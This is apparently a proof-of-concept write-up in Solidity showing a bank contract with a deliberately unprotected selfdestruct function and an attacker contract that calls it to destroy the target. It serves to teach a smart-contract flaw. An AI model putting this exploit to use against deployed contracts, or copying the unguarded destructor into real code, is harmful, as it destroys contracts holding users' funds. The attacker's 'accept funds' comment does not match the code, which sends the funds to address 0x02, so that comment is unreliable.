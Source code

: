 #### Proof of Concept Exploit

##### Vulnerable Contract (Simplified)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint256) public balances;
    address public owner;
    
    constructor() {
        owner = msg.sender;
    }
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        balances[msg.sender] -= amount;
        payable(msg.sender).transfer(amount);
    }
    
    // VULNERABLE: Unprotected selfdestruct
    function f() public {
        assembly { selfdestruct(0x02) }
    }
}
```

##### Exploit Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SelfDestructAttacker {
    address vulnerableContract;
    
    constructor(address _target) {
        vulnerableContract = _target;
    }
    
    // Anyone can call this function to destroy the vulnerable contract
    function attack() public {
        // Call the unprotected selfdestruct function
        (bool success, ) = vulnerableContract.call(abi.encodeWithSignature("f()"));
        require(success, "Attack failed");
    }
    
    // Receive function to accept funds
    receive() external payable {}
}
```
